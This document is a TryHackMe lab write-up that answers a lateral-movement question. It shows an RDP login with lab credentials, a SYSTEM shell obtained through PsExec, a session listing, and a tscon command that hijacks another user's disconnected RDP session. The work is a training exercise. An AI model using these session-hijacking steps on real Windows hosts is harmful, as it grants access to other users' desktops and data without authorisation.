



## Exercises

### Question 1 — What flag did you get from hijacking t1_toby.beck's session on THMJMP2?

Got a fresh set of credentials from the distributor for this task, since it's a separate endpoint from the earlier ones in this room.



Connected to THMJMP2 with those credentials:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ xfreerdp /u:'t2_jessica.richards' /p:o6R9PfosU /v:thmjmp2.za.tryhackme.com /dynamic-resolution /f
```

**Breakdown:**

- `/u:'t2_jessica.richards'` sets the username to authenticate with
- `/p:o6R9PfosU` sets the password to authenticate with
- `/v:thmjmp2.za.tryhackme.com` sets the target host to connect to
- `/dynamic-resolution` lets the remote session's resolution adjust if the local window gets resized
- `/f` opens the session in full screen

Opened a Command Prompt as administrator:



Went into `C:\tools` and ran PsExec64.exe to get a SYSTEM-level shell:

```shell
C:\Windows\system32>cd C:\tools

C:\tools>PsExec64.exe -s cmd.exe

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

**Breakdown:**

- `-s` runs the given program under the SYSTEM account rather than the current user
- `cmd.exe` is the program PsExec launches — the result is a new command prompt running as SYSTEM

Confirmed the privilege level and checked what sessions existed on the box:

```shell
C:\Windows\system32>whoami

nt authority\system

C:\Windows\system32>query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 t1_toby.beck                              2  Disc            2  11/14/2026 8:06 AM
 t1_toby.beck1                             3  Disc            2  11/14/2026 8:06 AM
 t1_toby.beck2                             4  Disc            2  11/14/2026 8:06 AM
 t1_toby.beck3                             5  Disc            2  11/14/2026 8:06 AM
 t1_toby.beck4                             6  Disc            2  11/14/2026 8:07 AM
 t1_toby.beck5                             7  Disc            1  11/14/2026 8:07 AM
 t2_jessica.richards   rdp-tcp#100         8  Active          .  11/14/2026 10:46 AM
```

`whoami` confirmed the shell is running as `nt authority\system`. `query user` takes no flags — it just lists every session on the box. Six separate `t1_toby.beck` copies showed up, all marked `Disc`, alongside my own active session, `t2_jessica.richards` on `rdp-tcp#100`.

Took over session ID `7` (`t1_toby.beck5`), reattaching it to my own session name:

```shell
C:\Windows\system32>tscon 7 /dest:rdp-tcp#100
```

**Breakdown:**

- `7` is the session ID being taken over
- `/dest:rdp-tcp#100` is the destination — my own current RDP session, which the target session gets reattached to

The screen switched straight into `t1_toby.beck5`'s desktop, with Paint open showing the flag:



**Answer:** `—REDACTED—`